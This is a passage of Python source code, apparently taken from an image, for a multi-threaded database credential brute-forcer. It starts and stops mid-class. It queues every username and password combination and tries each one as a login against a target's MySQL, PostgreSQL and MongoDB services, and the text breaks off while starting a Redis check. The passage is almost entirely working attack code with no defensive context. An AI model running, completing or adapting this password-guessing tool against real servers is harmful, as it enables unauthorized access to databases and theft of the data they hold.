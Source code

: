 ```bash
        self.port = port
        self.db_type = db_type.lower()
        self.usernames = usernames
        self.passwords = passwords
        self.threads = threads
        self.found_credentials = []
        self.queue = Queue()
        
        # Populate queue
        for username in usernames:
            for password in passwords:
                self.queue.put((username, password))
    
    def test_mysql(self, username, password):
        """Test MySQL connection"""
        try:
            connection = pymysql.connect(
                host=self.target,
                port=self.port,
                user=username,
                password=password,
                connect_timeout=5
            )
            connection.close()
            return True
        except:
            return False
    
    def test_postgresql(self, username, password):
        """Test PostgreSQL connection"""
        try:
            connection = psycopg2.connect(
                host=self.target,
                port=self.port,
                user=username,
                password=password,
                connect_timeout=5
            )
            connection.close()
            return True
        except:
            return False
    
    def test_mongodb(self, username, password):
        """Test MongoDB connection"""
        try:
            client = pymongo.MongoClient(
                host=self.target,
                port=self.port,
                username=username,
                password=password,
                serverSelectionTimeoutMS=5000
            )
            client.server_info()
            client.close()
            return True
        except:
            return False
    
    def test_redis(self, username, password):
        """Test Redis connection"""
        try:
            r = redis.Redis(
```